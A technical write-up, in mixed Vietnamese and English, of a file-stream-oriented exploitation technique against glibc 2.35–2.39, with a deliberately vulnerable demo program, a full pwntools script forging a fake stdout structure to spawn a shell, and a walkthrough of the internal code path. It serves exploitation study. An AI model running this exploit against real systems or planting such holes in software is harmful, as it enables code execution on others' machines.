 Lấy cảm hứng từ [blog](https://aneii11.github.io/p/fsop-code-execution/).
Test thành công trên `glibc 2.35`, `2.38`, `2.39` (same code path).
# Scenery

Có khả năng ghi đè `stdout` trong libc, thường required libc leak:
- malloc lên `stdout` trong libc (tcache poisoning, house of spirit, ...)
- ...
Có khả năng overwrite ít nhất `0xE0` bytes.

# POC

## Demo code C

Chỉ cần compile code C theo hướng dẫn shogun (dựa theo version glibc):

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);

    printf("libc leak: %lx\n", stdout);
    read(0, stdout, 0xE0);
    puts("trigger");

    return 0;
}
```

Cho libc leak và ghi đè trực tiếp lên `stdout`, gọi `puts()` (hoặc bất kì hàm nào làm việc với `stdout`) để trigger fsop.

## Demo exploit 

Compile binary trên local với `glibc 2.39`:

```
from pwn import *

exe = ELF("./tmp")
libc = ELF("/home/vani/glibc-2.39/compiled-2.39/lib/libc.so.6")
context.binary = exe

script = '''
b *main
b *main + 123
b *main + 138
'''

p = process("./tmp")
#p = gdb.debug("./tmp", gdbscript = script)

p.recvuntil(b"libc leak: ")
libc_base = int(b"0x" + p.recvline(), 16) - 0x1d07a0
print(hex(libc_base))

system = libc_base + libc.symbols['system']
add_rdi_0x10_jmp_rcx = libc_base + 0x000000000013b0d0
_IO_stdfile_1_lock = libc_base + libc.symbols['_IO_stdfile_1_lock']
_IO_2_1_stdout_ = libc_base + libc.symbols['_IO_2_1_stdout_']
fake_vtable = libc_base + libc.symbols['_IO_wfile_jumps'] - 0x18

fake_stdout = [p64(0x3b01010101010101), # _flags
               p64(0),
               p64(system), # _IO_read_end
               p64(0) * 3,
               b"/bin/sh\x00", # _IO_write_end
               p64(0) * 2,
               p64(add_rdi_0x10_jmp_rcx), # _IO_save_base
               p64(0) * 7,
               p64(_IO_stdfile_1_lock), # _lock
               p64(0),
               p64(_IO_2_1_stdout_ + 0xb8), # _codecvt
               p64(_IO_2_1_stdout_ + 0x200), # _wide_data
               p64(0) * 2 + p64(_IO_2_1_stdout_ + 0x20) + p64(0) * 3, # padding the __pad5
               p64(fake_vtable) # vtable
               ]
payload = b"".join(fake_stdout)
p.send(payload)

p.interactive()
```

<mark>Với mỗi version glibc, exploit chỉ cần sửa lại đoạn tính toán `libc_base` và offset của gadget  `add_rdi_0x10_jmp_rcx`</mark>.

# Idea

## Call `_IO_wfile_underflow`

<mark>The usual stream of most function using `stdout` is to call `_IO_xsputn`</mark> through `_IO_file_jumps`, which is a `_IO_jump_t` vtable:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libioP.h#L294)
![](attachments/image00.png)

~~The exploit shift the vtable back 3 functions, which turn `__xsputn` into `__underflow` entry.~~
Có vẻ an3eii nhầm chỗ này, exploit fake vtable về địa chỉ `&_IO_wfile_jumps - 0x18` mục đích là để chương trình thay vì gọi `_IO_new_file_xsputn` sẽ gọi `_IO_wfile_underflow`.

![](attachments/image01.png)

Ở trên là vtable gốc, ở dưới là vtable fake, offset cách một đoạn lớn nhưng vẫn validate vì thuộc vùng vtable, chứ không hẳn là "shift back 3 functions".

## Bypass flag check and call `__libio_codecvt_in`

Bên trong hàm `_IO_wfile_underflow`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/wfileops.c#L111)
![](attachments/image02.png)

The exploit manages to call `__libio_codecvt_in`, which take the first argument being `_IO_2_1_stdout_->_codecvt`. I’ll talk later what’s inside `__libio_codecvt_in`. 

But now, take a look at how the exploit bypass all the flag check to get to its desired call.

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/libio.h#L66)
![](attachments/image03.png)

There’re 3 conditions need to be met to reach to `__libio_codecvt_in`:

- As decleared as macros, `_IO_EOF_SEEN` and `_IO_NO_READS` being `0x0010` and `0x0004` respectively. Those flags need to be <mark>turned off</mark>, as in `_IO_wfile_underflow`. The exploit’s flag is `fake.flags = 0x3b01010101010101`, which passed both checks (có thể đổi flag khác).

- The `_IO_wide_data` is also checked (`fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end`), however we set `fp->wide_data = nullbuf` (null region) so it easily passes the check (dấu `=` sẽ xảy ra -> pass điều kiện).

- Last one, `fp->_IO_read_ptr < _IO_read_end`: we did not set `fp->_IO_read_ptr`, but `_IO_read_end`, so it is `0`, which passed the check (có thể đổi giá trị khác miễn là thỏa mãn điều kiện để nhảy vào trong `if`).

## Inside `__libio_codecvt_in`

Bên trong `__libio_codecvt_in`:

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/iofwide.c#L160)
![](attachments/image04.png)

Yes  `DL_CALL_FCT(fct, (gs, ..))` will actually call the func `fct(gs, ....)`

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/bits/dlfcn.h#L54)
![](attachments/image05.png)

Yes, our function pointer is finally here. As described, it calls `(*fctp) (arg1,arg2);`. But first, what is `fct`?. We don’t care about what it is, but we need to know how they control that.

First, it gets `gs = codecvt->__cd_in.step`, fortunately is at offset 0 of `codecvt` (confirmed). As I debug, `codecvt` point back to `_IO_2_1_stdout_+32`:

![](attachments/image06.png)

Then, it takes `fct = gs->__fct`, which lies at offset `0x28` (or 5 `qword`)

[source code](https://elixir.bootlin.com/glibc/glibc-2.39/source/iconv/gconv.h#L84)
![](attachments/image07.png)

Take a look back at my gdb, at offset `0x28` from `*gs` is gadget `add rdi, 0x10, jmp rcx`. Our current `rdi` is at `*gs`, and `+0x10` means `rdi` will contain `"/bin/sh"`. Meanwhile, `rcx` already pointed to `system`. Voila!

(Debug by yourself)

![](attachments/image08.png)
![](attachments/image09.png)
![](attachments/image10.png)

## Attention

Also one thing to note, we need to padding the `__pad5` of `stdout` to write section, or else the exploit won't work.
